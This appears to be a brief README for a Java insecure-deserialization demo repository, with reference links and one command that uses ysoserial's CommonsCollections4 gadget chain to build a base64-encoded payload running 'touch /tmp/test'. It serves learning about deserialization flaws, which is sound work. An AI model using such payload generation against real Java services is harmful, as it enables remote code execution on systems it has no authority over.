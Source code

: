 # unserial java demo

## make payload
java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections4 'touch /tmp/test' | base64  -w 0

## doc

https://docs.oracle.com/en/java/javase/18/docs/specs/serialization/serial-arch.html
https://greyshell.github.io/blog/2019/11/22/insecure-deserialization-java/
